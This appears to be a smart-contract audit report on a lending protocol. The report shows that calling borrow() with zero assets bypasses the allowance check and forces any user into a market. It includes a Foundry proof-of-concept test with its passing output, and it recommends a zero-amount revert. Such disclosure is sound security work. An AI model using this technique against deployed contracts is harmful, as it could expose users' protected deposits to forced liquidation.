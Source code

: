 Faithful Felt Swift

medium

# borrow() maliciously let others to enter market

## Summary
After `borrow()` is executed successfully, `borrower` will automatically enter the market.
This method performs a security check to determine if the `msg.sender` allowance is sufficient to avoid malicious operations.
But it doesn't limit the borrow number !=0, so anyone can execute without an allowance.
This causes the permission check to fail and maliciously allows others to enter the market

## Vulnerability Detail
`borrow()` is executed by calling `auditor.checkBorrow()`.
`checkBorrow()` will cause the `borrower` to automatically enter the market.
```solidity
contract Market is Initializable, AccessControlUpgradeable, PausableUpgradeable, ERC4626 {
..
  function borrow(
    uint256 assets,
    address receiver,
    address borrower
  ) external whenNotPaused whenNotFrozen returns (uint256 borrowShares) {
@> //@audit missing check assets !=0
    spendAllowance(borrower, assets);

...

@>  auditor.checkBorrow(this, borrower);
    asset.safeTransfer(receiver, assets);
  }

```
```solidity
contract Auditor is Initializable, AccessControlUpgradeable {
...
  function checkBorrow(Market market, address borrower) external {
    MarketData storage m = markets[market];
    if (!m.isListed) revert MarketNotListed();

    uint256 marketMap = accountMarkets[borrower];
    uint256 marketMask = 1 << m.index;

    // validate borrow state
    if ((marketMap & marketMask) == 0) {
      // only markets may call checkBorrow if borrower not in market
      if (msg.sender != address(market)) revert NotMarket();

@>    accountMarkets[borrower] = marketMap | marketMask;
      emit MarketEntered(market, borrower);
    }
```

however,  this method does not determine that `assets` cannot be 0. If the user specifies `assets=0` then the security check for allowances can be skipped, and the `borrower` will enter the market after the method is executed successfully

### POC

The following code demonstrates that no allowances are needed to let the `borrower` enter the market

add to `Market.t.sol`
```solidity
  function testAnyoneEnterMarket() external {
    (,, uint8 index,,) = auditor.markets(
      Market(address(market))
    );
    bool inMarket = auditor.accountMarkets(BOB) & (1 << index) == 1;
    console2.log("bob in market(before):",inMarket);
    console2.log("anyone execute borrow(0)");
    vm.prank(address(0x1230000123)); //anyone
    market.borrow(0, address(this), BOB);
    inMarket = auditor.accountMarkets(BOB) & (1 << index) == 1;
    console2.log("bob in market(after):",inMarket);
  }  
```

```console
$ forge test -vvv --match-test testAnyoneEnterMarket

Ran 1 test for test/Market.t.sol:MarketTest
[PASS] testAnyoneEnterMarket() (gas: 172080)
Logs:
  bob in market(before): false
  anyone execute borrow(0)
  bob in market(after): true

```

## Impact

The current protocol makes a strict distinction between enter market or not.
A user can be a simple `LP` to a market and not participate in borrowing or collateralization, which is then protected and cannot be used as a `seize market` for liquidation purposes.
At the same time, if the user does not enter the market, then the user can access the assets as they wish without constraints.
And so on.
If any person can maliciously allow others to enter the market to break the rules. 
For example, maliciously liquidating `seize` a protected market

## Code Snippet
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L167
## Tool used

Manual Review

## Recommendation

```diff
  function borrow(
    uint256 assets,
    address receiver,
    address borrower
  ) external whenNotPaused whenNotFrozen returns (uint256 borrowShares) {
+   if (assets == 0) revert ZeroBorrow();
    spendAllowance(borrower, assets);
```
